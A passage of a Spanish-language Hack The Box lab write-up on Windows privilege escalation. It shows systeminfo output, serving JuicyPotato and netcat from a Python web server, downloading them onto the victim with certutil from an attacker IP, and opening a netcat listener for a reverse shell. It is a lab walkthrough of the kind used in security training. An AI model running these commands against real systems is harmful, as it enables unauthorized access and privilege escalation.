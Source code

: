 ```
Virtual Memory: Available: 11.176 MB
Virtual Memory: In Use:    1.109 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.186.242
```

Nos vamos a `descargar` el `JuicyPotato` y el `netcat` en la máquina víctima para ello nos descargamos el `JuicyPotato` [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) y el `netcat` [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/). Posteriormente y en el `mismo directorio` nos creamos un `servidor http` con `python`

```
# python -m http.server 80
```

Nos `descargamos` los `binarios` en la máquina víctima

```
C:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://10.10.16.35/nc.exe
C:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://10.10.16.35/JuicyPotato.exe
```

Si todo funciona correctamente deberíamos tener los dos binarios en el `directorio actual`

```
C:\Windows\Temp\Privesc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Windows\Temp\Privesc

07/08/2024  07:48 ��    <DIR>          .
07/08/2024  07:48 ��    <DIR>          ..
07/08/2024  07:48 ��           347.648 JuicyPotato.exe
07/08/2024  07:48 ��            28.160 nc.exe
               2 File(s)        375.808 bytes
               2 Dir(s)   1.431.343.104 bytes free
```

Nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 9001
```
